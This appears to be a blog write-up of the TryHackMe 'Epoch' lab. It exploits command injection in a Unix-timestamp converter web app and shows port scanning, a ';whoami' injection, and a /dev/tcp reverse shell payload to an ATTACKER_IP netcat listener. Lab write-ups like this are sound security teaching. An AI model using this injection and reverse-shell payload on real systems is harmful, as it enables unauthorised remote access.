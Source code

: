 ```yaml
---
layout: post
title: TryHackMe/Easy/Epoch
abbrlink: 703f12f41ca74c20b2839efb80c46986
tags:
  - command injection
  - web
  - linux
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - Epoch
date: 1718954053455
updated: 1721507537244
---
```


<https://tryhackme.com/r/room/epoch>

# Scenario

Be honest, you have always wanted an online tool that could help you convert UNIX dates and timestamps! Wait... it doesn't need to be online, you say? Are you telling me there is a command-line Linux program that can already do the same thing? Well, of course, we already knew that! Our website actually just passes your input right along to that command-line program!

**Access this challenge** by deploying both the vulnerable machine by pressing the green "`Start Machine`" button located within this task, and the TryHackMe AttackBox by pressing the  "`Start AttackBox`" button located at the top-right of the page.

Navigate to the following URL using the AttackBox: `http://MACHINE_IP`

Check out similar content on TryHackMe:

- [Command Injection](https://tryhackme.com/room/oscommandinjection)

# Enumeration

## \[+] 10.10.219.237 - epoch.thm

We will add the target IP address and a domain name to our `/etc/hosts` file. Using `sudo sh -c`, executes the entire command as a subshell as `root` where we will then use `echo` to create a new line with `\n` followed by our target IP and the domain name we give it.

```sh
sudo sh -c 'echo "\n10.10.219.237 epoch.thm" >> /etc/hosts'
```

Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

```sh
export RHOSTS=10.10.219.237
```

First, I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online which helps find other hosts that block ICMP packets:

```sh
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] Port 80 - HTTP

### \[-] epoch.thm

Here we have a web application that converts [UNIX Epoch time](https://en.wikipedia.org/wiki/Unix_time) to [UTC](https://en.wikipedia.org/wiki/Utc):

![638ac4903ae5ab97c804fa992ceabd77.png](/resources/7d630bf8eea24bcf8535da7dcf1e7f32.png)

From the Wikipedia article: *"Unix time is a date and time representation widely used in computing. It measures time by the number of non-leap seconds that have elapsed since 00:00:00 UTC on 1 January 1970, the Unix epoch."*

We can test that by entering the value `0` then clicking on the "Convert" button:

![2b0cd38a28ad085905964c217af999d3.png](/resources/eb3f353054e04403a1182b2433ad469a.png)

If we try entering a command like `whoami` we receive an error message:

![21f894ca608e95ddd99777bc30c84a00.png](/resources/e8f6992c00794adca588773338ac5727.png)

Instead, we can try chaining commands using a pipe (`|`) character or the semi-colon (`;`) character before the command we want to run. Entering the command `;whoami` reveals the current user `challenge`:

![89f659c4b9dba59aa32dbf3a6af0bdd6.png](/resources/0f6dc7ab98d8413e8af4c4f69eb45d11.png)

# Initial Foothold

To get a reverse shell, we first start our [Netcat](https://linux.die.net/man/1/nc) listener:

```sh
nc -nvlp 4444
```

Then back on the web application we run the command:

`;sh -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1`

![fac0c0ec12a970713a3678d177a6b02b.png](/resources/61ece8f88fd4455a9ea4aa05d9c4a04d.png)

After pressing the convert button, the page should hang and we should receive a connection back on our listener:

![4bca03a4b9798b7bd38c5e6857860198.png](/resources/ac56f1a64c414c87b25f10721646432f.png)

If we check the environment variables using the [env](https://linux.die.net/man/1/env) command we should find the flag:

![ccb3d6c1692c93c156db6c8da45ee34f.png](/resources/fc69c5f2af574bc28db586cfee446345.png)
